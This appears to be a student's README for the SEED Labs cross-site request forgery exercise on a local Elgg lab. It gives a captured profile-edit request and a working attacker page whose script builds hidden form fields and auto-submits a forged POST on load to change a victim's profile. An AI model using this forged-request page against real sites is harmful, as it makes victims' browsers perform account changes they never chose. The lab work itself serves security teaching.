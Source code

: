 # Cross-Site-Request-Forgery
Cross site request forgery

|  Name   | Title |
| ------------- | ------------- |
| Asad Ali  |  Cross-Site Request Forgery |

Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_CSRF_Elgg.pdf
# Lab Enviroment
- Attacker ```10.0.2.15```
- Server  ```10.0.2.4```

Edit the DNS records in ```/etc/hosts``` on both the attacker and the server:
```
10.0.2.4       www.csrflabelgg.com
10.0.2.15       www.csrflabattacker.com
```
# Task 1
Create a web page as msg.html:
```
<html>
    <body>
        <h1>This is attack</h1>
    </body>
</html>

```
As show in image

![alt text](https://github.com/Asad-Ali-Code/Cross-Site-Request-Forgery/blob/main/msg%20file.PNG)

And put it into ```/var/www/CSRF/Attacker``` folder.

![alt text](https://github.com/Asad-Ali-Code/Cross-Site-Request-Forgery/blob/main/move%20msg%20file.PNG)

Then, send Alice a message that contains the URL: http://www.csrflabattacker.com/msg.html
as if Alice click on the link our ``` msg.html```  execute

![alt text](https://github.com/Asad-Ali-Code/Cross-Site-Request-Forgery/blob/main/attack.PNG)

# Task 2
Observe a legitimate profile save request:
 ```
 Request URL: http://www.csrflabelgg.com/action/profile/edit
__elgg_token=7B0nt3O7twQOHOELADFNtg
__elgg_ts=1589772059
name=Alice
description=<p>dasdsa</p>


accesslevel[description]=2
briefdescription
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=42
 
 ```
 Create a malicious web page as ```profile.html```:
 ```
 <html>

<body>
    <h1>This page forges an HTTP POST request.</h1>
    <script type="text/javascript">
        function forge_post() {
            var fields;
            // The following are form entries need to be filled out by attackers.
            // The entries are made hidden, so the victim won't be able to see them.
            fields += "<input type='hidden' name='name' value='Alice'>";
            fields += "<input type='hidden' name='briefdescription' value='Boby is my hero'>";
            fields += "<input type='hidden' name='accesslevel[briefdescription]' value = '2'>";
            fields += "<input type='hidden' name='guid' value='42'>";
            // Create a <form> element.
            var p = document.createElement("form");
            // Construct the form
            p.action = "http://www.csrflabelgg.com/action/profile/edit";
            p.innerHTML = fields;
            p.method = "post";
            // Append the form to the current page.
            document.body.appendChild(p);
            // Submit the form
            p.submit();
        }
        // Invoke forge_post() after the page is loaded.
        window.onload = function () { forge_post(); }
    </script>
</body>

</html>
 ```
![alt text](https://github.com/Asad-Ali-Code/Cross-Site-Request-Forgery/blob/main/profile%20file.PNG)

And then place it into /var/www/CSRF/Attacker folder. So it can be accessed via http://www.csrflabattacker.com/profile.html.
 
![alt text](https://github.com/Asad-Ali-Code/Cross-Site-Request-Forgery/blob/main/move%20profile%20file.PNG)
 
Now send this URL to Alice, if she clicks and opens the website, it will forge an HTTP POST request to edit her ```brief description``` in profile page. After that, you can see her profile page is updated as:

![alt text](https://github.com/Asad-Ali-Code/Cross-Site-Request-Forgery/blob/main/atack%202.PNG)
